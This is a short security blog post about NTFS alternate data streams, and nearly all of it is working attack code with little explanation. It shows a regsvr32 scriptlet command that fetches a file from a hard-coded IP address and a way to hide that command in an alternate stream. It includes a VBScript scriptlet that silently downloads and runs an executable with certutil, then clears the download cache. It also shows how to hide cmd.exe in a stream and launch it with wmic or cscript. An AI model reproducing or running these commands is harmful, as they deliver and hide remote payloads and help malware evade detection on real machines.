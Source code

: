 ```yaml
---
author: XhstormR
tags:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "%ComSpec% /c cd /d %TEMP% && " &_
            "(IF NOT EXIST main.exe certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe) && " &_
            "certutil.exe -urlcache * delete & " &_
            "main.exe r", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

---

```bash
type cmd.exe > ...:cmd.exe
wmic process call create D:\Download\...:cmd.exe
```

```bash
echo winver > ...:run.txt
cmd.exe - < ...:run.txt
or
echo WScript.CreateObject("WScript.Shell").Run "cmd /c for /f ""delims=,"" %i in (...:run.txt) do %i", 0 > ...:run.vbs
cscript ...:run.vbs
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
